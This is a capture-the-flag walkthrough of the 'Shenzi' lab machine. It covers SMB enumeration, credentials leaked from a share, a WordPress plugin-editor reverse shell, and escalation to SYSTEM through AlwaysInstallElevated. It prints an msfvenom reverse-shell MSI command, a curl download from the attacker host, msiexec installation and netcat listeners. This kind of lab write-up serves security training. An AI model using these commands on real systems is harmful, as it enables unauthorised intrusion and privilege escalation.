 # **Shenzi | PG Practice**


- Running an nmap scan we have

```bash
# Nmap 7.94SVN scan initiated Sat Aug 10 07:58:08 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.158.55
Increasing send delay for 192.168.158.55 from 0 to 5 due to 333 out of 831 dropped probes since last increase.
Warning: 192.168.158.55 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.158.55
Host is up (0.15s latency).
Not shown: 44007 closed tcp ports (conn-refused), 21514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-favicon: Unknown favicon MD5: 56F7C04657931F2D0B79371B2D6E9820
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.158.55/dashboard/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was https://192.168.158.55/dashboard/
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
|_SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   GenericLines, HTTPOptions, LANDesk-RC, LDAPSearchReq, LPDString, NULL, NotesRPC, RPCCheck, SIPOptions, SMBProgNeg, TerminalServerCookie, WMSRequest, X11Probe, ms-sql-s, oracle-tns: 
|_    Host '192.168.45.228' is not allowed to connect to this MariaDB server
5040/tcp  open  unknown
7680/tcp  open  tcpwrapped
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
--SNIP--
Host script results:
| smb2-time: 
|   date: 2024-08-10T07:05:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 10 08:05:22 2024 -- 1 IP address (1 host up) scanned in 434.02 seconds
```

- We don't have anonymous access to FTP

```bash
❯ ftp 192.168.158.55
Connected to 192.168.158.55.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.158.55:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

- Checking the SMB protocol with `smbclient` we have one share looking interesting

```bash
❯ smbclient -L \\\\192.168.158.55\\ 
Password for [WORKGROUP\sec-fortress]:

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       Remote IPC
        Shenzi          Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.158.55 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```



- Connected to the SMB share as a NULL user and downloaded all files

```bash
❯ smbclient \\\\192.168.158.55\\Shenzi\\
Password for [WORKGROUP\sec-fortress]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu May 28 16:45:09 2020
  ..                                  D        0  Thu May 28 16:45:09 2020
  passwords.txt                       A      894  Thu May 28 16:45:09 2020
  readme_en.txt                       A     7367  Thu May 28 16:45:09 2020
  sess_klk75u2q4rpgfjs3785h6hpipp      A     3879  Thu May 28 16:45:09 2020
  why.tmp                             A      213  Thu May 28 16:45:09 2020
  xampp-control.ini                   A      178  Thu May 28 16:45:09 2020

                12941823 blocks of size 4096. 5862162 blocks available
smb: \> mget *
Get file passwords.txt? y
getting file \passwords.txt of size 894 as passwords.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
Get file readme_en.txt? y
getting file \readme_en.txt of size 7367 as readme_en.txt (9.7 KiloBytes/sec) (average 4.9 KiloBytes/sec)
Get file sess_klk75u2q4rpgfjs3785h6hpipp? y
getting file \sess_klk75u2q4rpgfjs3785h6hpipp of size 3879 as sess_klk75u2q4rpgfjs3785h6hpipp (5.2 KiloBytes/sec) (average 5.0 KiloBytes/sec)
Get file why.tmp? y
getting file \why.tmp of size 213 as why.tmp (0.3 KiloBytes/sec) (average 4.0 KiloBytes/sec)
Get file xampp-control.ini? y
getting file \xampp-control.ini of size 178 as xampp-control.ini (0.3 KiloBytes/sec) (average 3.3 KiloBytes/sec)
smb: \> 
```



- The `passwords.txt` file was the most interesting cos' it contains credentials of different web services

```bash
❯ \cat passwords.txt
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 

3) Mercury (not in the USB & lite version): 

   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 

   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     

5) WordPress:

   User: admin
   Password: FeltHeadwallWight357
```



- We have wordpress credentials hehe, But for some reason i can't seem to find that endpoint even with few directory fuzzing 



![image](https://github.com/user-attachments/assets/cf1762f5-beb3-4105-b41f-c0ebff23d223)



- So what i did was guess the wordpress site which was unrealistic and took me some time to guess. I was so pissed off cos' the wordpress endpoint was called '**shenzi**', damn just the name of the box :tired_face:



![image](https://github.com/user-attachments/assets/b390ba6b-0322-4f2e-baaa-3c4c737ccb0f)



- So let go ahead and login with the wordpress credentials we have at hand at http://192.168.158.55/shenzi/wp-admin/
- Once logged in we can attempt to gain a reverse shell by editing a plugin with the "*Plugin Editor*" and replacing any `.php` file with our reverse shell
- Then accessing the plugin at `http://192.168.158.55/shenzi/wp-content/plugins/<plugin name>/<edited.php>/`

 

```bash
❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.158.55] 51139
whoami
shenzi\shenzi
PS C:\xampp\htdocs\shenzi\wp-content\plugins> hostname
shenzi
PS C:\xampp\htdocs\shenzi\wp-content\plugins> 
```



- Found this on `winpeas.exe`

[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)

![](https://i.imgur.com/oODmJHM.png)

> **If** these 2 registers are **enabled** (value is **`0x1`**), then users of any privilege can **install** (execute) `*.msi` files as NT AUTHORITY\\**SYSTEM**.



- We can also confirm this manually 

```powershell
C:\Shenzi>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Shenzi>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```



- To exploit this first create a `msfvenom` payload to attempt to gain reverse shell as administrator 



```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 lport=4444 -a x64 --platform windows -f msi -o ignite.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: ignite.msi
```



- Transfer the `*.msi` file to target system



````powershell
C:\Shenzi>curl http://192.168.45.228/ignite.msi -o ignite.msi
curl http://192.168.45.228/ignite.msi -o ignite.msi
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  156k  100  156k    0     0   155k      0  0:00:01  0:00:01 --:--:--  155k
````



- Then start up a listener and install the package using the **`msiexec`** command line utility.

```powershell
PS C:\users\public> msiexec /quiet /qn /i ignite.msi

# Listerner
rlwrap nc -lvnp 4444
```



![image-20240810204327108](https://github.com/user-attachments/assets/41efa32b-8660-4dfd-b94b-b26a0e7aca28)

